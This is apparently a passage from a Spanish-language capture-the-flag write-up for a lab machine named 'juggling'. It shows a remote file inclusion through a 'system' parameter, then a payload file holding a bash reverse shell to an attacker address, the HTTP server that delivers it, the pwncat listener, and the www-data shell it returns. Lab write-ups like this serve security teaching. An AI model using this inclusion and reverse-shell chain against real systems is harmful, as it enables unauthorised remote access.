 ```console
Content-Length: 42



system=http://192.168.182.5:8081/index.php
```

Y si estamos en escucha vemos que nos llega la petición y está cargando el recurso.
```console
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
192.168.182.6 - - [15/Oct/2024 16:43:29] code 404, message File not found
192.168.182.6 - - [15/Oct/2024 16:43:29] "GET /index.php HTTP/1.1" 404 -
```

Ahora que hemos confirmado que esto funciona, vamos a crear un recurso `pwn`
```console
$ cat pwn 
system("bash -c 'bash -i >& /dev/tcp/192.168.182.5/443 0>&1'");
```

Y lo compartimos por el puerto 8081.
```console
$ python3 -m http.server 8081
```

Ahora, nos ponemos en escucha con `pwncat-cs` por el puerto 443.
```console
$ sudo pwncat-cs -lp 443
```

Ahora si ponemos nuestro recurso para que sea evaluado en la máquina víctima...
![Write-up Image](images/Screenshot_18.png)

Conseguimos acceso a la máquina víctima.
```console
$ sudo pwncat-cs -lp 443
[16:46:32] Welcome to pwncat 🐈!                                                                                                               __main__.py:164
[16:47:19] received connection from 192.168.182.6:56158                                                                                             bind.py:84
[16:47:19] 192.168.182.6:56158: registered new host w/ db                                                                                       manager.py:957
(local) pwncat$                                                                                                                                               
(remote) www-data@juggling:/var/www/juggling$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
